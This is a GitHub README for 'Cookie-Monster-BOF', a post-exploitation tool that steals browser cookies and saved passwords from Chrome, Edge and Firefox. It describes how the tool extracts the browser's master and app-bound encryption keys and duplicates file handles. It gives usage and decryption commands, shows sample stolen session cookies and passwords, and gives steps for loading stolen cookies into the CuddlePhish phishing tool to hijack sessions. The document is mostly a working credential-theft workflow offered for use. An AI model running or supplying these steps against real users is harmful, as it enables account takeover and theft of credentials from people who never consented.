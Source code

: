 # Cookie-Monster-BOF
Steal browser cookies for edge, chrome and firefox through a BOF!

Cookie Monster BOF will extract the WebKit Master Key and the App Bound Encryption Key for both Edge and Chrome, locate a browser process with a handle to the Cookies and Login Data files, copy the handle(s) and then filelessly download the target file(s).

Once the Cookies/Login Data file(s) are downloaded, the python decryption script can be used to extract those secrets! Firefox module will parse the profiles.ini and locate where the logins.json and key4.db files are located and download them. A seperate github repo is referenced for offline decryption.  

Chrome & Edge 127+ Updates: new chromium browser cookies (v20) use the app bound key to encrypt the cookies. As a result, this makes retrieving the app_bound_encrypted_key slightly more difficult. Thanks to [snovvcrash](https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824) this process can be accomplished without having to escalate your privileges. The catch is your process must be running out of the web browser's application directory. i.e. must inject into Chrome/Edge or spawn a beacon from the same application directory as the browser. 

Latest update allows you to decrypt cookies as SYSTEM and without having to inject into the browser process! Shoutout to @sdemius for the discovering how to decrypt the Chrome's [PostProcessData](https://source.chromium.org/chromium/chromium/src/+/main:chrome/elevation_service/elevator.cc;l=216;bpv=1) function and @b1scoito [explanation](https://github.com/moonD4rk/HackBrowserData/issues/431#issuecomment-2606665195)!  
 
## BOF Usage
```
Usage: cookie-monster [--chrome || --edge || --system <Local State File Path> <PID> || --firefox || --chromeCookiePID <PID> || --chromeLoginDataPID <PID> || --edgeCookiePID <PID> || --edgeLoginDataPID <PID> ] 
cookie-monster Example: 
   cookie-monster --chrome 
   cookie-monster --edge 
   cookie-monster --system "C:\Users\<USER>\AppData\Local\<BROWSER>\User Data\Local State" <PID> 
   cookie-monster --firefox 
   cookie-monster --chromeCookiePID 1337
   cookie-monster --chromeLoginDataPID 1337
   cookie-monster --edgeCookiePID 4444
   cookie-monster --edgeLoginDataPID 4444
cookie-monster Options: 
    --chrome, looks at all running processes and handles, if one matches chrome.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD 
    --edge, looks at all running processes and handles, if one matches msedge.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD
    --system, Decrypt chromium based browser app bound encryption key without injecting into browser. Requires path to Local State file and PID of a user process for impersonation 
    --firefox, looks for profiles.ini and locates the key4.db and logins.json file 
    --chromeCookiePID, if chrome PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --chromeLoginDataPID, if chrome PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
    --edgeCookiePID, if edge PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --edgeLoginDataPID, if edge PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
```
## Compile BOF 
Ensure Mingw-w64 and make is installed on the linux prior to compiling.
```
make
```

## Decryption Steps
Install requirements
```
pip3 install -r requirements.txt
```

Usage
```
python3 decrypt.py -h                                                                                                                                                                      
usage: decrypt.py [-h] -k KEY -o {cookies,passwords,cookie-editor,cuddlephish,firefox} -f FILE

Decrypt Chromium cookies and passwords given a key and DB file

options:
  -h, --help            show this help message and exit
  -k KEY, --key KEY     Decryption key
  -o {cookies,passwords,cookie-editor,cuddlephish,firefox}, --option {cookies,passwords,cookie-editor,cuddlephish,firefox}
                        Option to choose
  -f FILE, --file FILE  Location of the database file
```

Examples:
Decrypt Chrome/Edge Cookies File
```
python .\decrypt.py -k "\xec\xfc...." -o cookies -f ChromeCookies.db

Results Example:
-----------------------------------
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22

Host: github.com
Path: /
Name: user_session
Cookie: x123.....
Expires: Nov 11 2023 21:25:22
```

Decrypt Chrome/Edge Cookies File and save to json
```
python .\decrypt.py -k "\xec\xfc...." -o cookie-editor -f ChromeCookies.db
Results Example:
Cookies saved to 2025-04-11_18-06-10_cookies.json
```
Import cookies JSON file with https://cookie-editor.com/ 

Decrypt Chome/Edge Passwords File
```
python .\decrypt.py -k "\xec\xfc...." -o passwords ChromePasswords.db

Results Example:
-----------------------------------
URL: https://test.com/
Username: tester
Password: McTesty
```
Decrypt Firefox Cookies and Stored Credentials: <br>
https://github.com/lclevy/firepwd

### CuddlePhish Support
added cuddlephish option to the decrypt script which should support using the cookie with https://github.com/fkasler/cuddlephish

```
# Decrypt Cookies
python3 decrypt.py -k "\xec\xfc..." -o cuddlephish -f ChromeCookies.db

# Clone Project
cd 
git clone https://github.com/fkasler/cuddlephish
cd cuddlephish

# Install Dependencies Example on Debian 
curl -fsSL https://deb.nodesource.com/setup_23.x -o nodesource_setup.sh
sudo -E bash nodesource_setup.sh
sudo apt-get install nodejs
npm install

# Import Cookies
cp ~/cookie-monster/cuddlephish_YYYY-MM-DD_HH-MM-SS.json .
node stealer.js cuddlephish_YYYY-MM-DD_HH-MM-SS.json
```

## References
This project could not have been done without the help of Mr-Un1k0d3r and his amazing seasonal videos!
Highly recommend checking out his lessons!!! <br>
Cookie Webkit Master Key Extractor:
https://github.com/Mr-Un1k0d3r/Cookie-Graber-BOF <br>
Fileless download:
https://github.com/fortra/nanodump <br>
Decrypt Cookies and Login Data:
https://github.com/login-securite/DonPAPI <br>
App Bound Key Decryption:
https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824 <br>
Decrypt Chrome 130+ Cookies 
https://github.com/runassu/chrome_v20_decryption/issues/14#issuecomment-2708796234 <br>
